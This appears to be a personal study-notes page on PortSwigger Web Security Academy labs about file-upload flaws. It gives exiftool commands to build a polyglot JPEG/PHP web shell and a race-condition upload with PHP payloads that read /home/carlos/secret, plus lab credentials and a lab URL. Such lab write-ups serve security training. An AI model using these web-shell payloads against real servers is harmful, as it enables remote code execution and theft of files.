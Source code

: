 ![image](https://m0d1cumc0rvu5.github.io/docs/assets/images/20220505182405.png)

![image](https://m0d1cumc0rvu5.github.io/docs/assets/images/20220505183119.png)

![image](https://m0d1cumc0rvu5.github.io/docs/assets/images/20220505183142.png)

### Remote code execution via polyglot web shell upload
- "Instead of implicitly trusting the 'Content-Type' specified in a request, more secure servers try to verify that the contents of the file actually match what is expected."
	- An example being image dimensions
		- JPEG always begin with "FF D8 FF" bytes
```bash

If exiftool is not installed on linux system
Install program
sudo apt install libimage-exiftool-perl

View all the metadata for specified photo

exiftool image.jpeg

Delete all metadata for specified photo // do not execute this on photo used (useful for clearing personal metadata from photo(s))

exiftool -all=image.jpeg

Choose photo

cp image.jpeg polyglot.jpeg

exiftool -Comment="<?php echo 'START ' . file_get_contents('/home/carlos/secret') . ' END'; ?>" polyglot.jpeg -o polyglot.php

Upload "polyglot.php"

Go to:

https://acbe1f961e765f23c0ede19700e200e9.web-security-academy.net/files/avatars/polyglot.php

```

![image](https://m0d1cumc0rvu5.github.io/docs/assets/images/20220505222347.png)

### Web shell upload via race condition
```bash

Target directory /home/carlos/secret 
Submit this secret using the button provided in the lab banner. 
You can log in to your own account using the following credentials: wiener:peter
Also chain exploits w/ directory traversal

Change

<?php echo file_get_contents('/path/to/target/file'); ?>

To

<?php echo file_get_contents('/home/carlos/secret'); ?>

If turbo intruder is not installed go to BAapp store and install it
Intercept is on 
Upload "file.php"
Only .png and .jpg file extensions are accepted from previous trial and error
```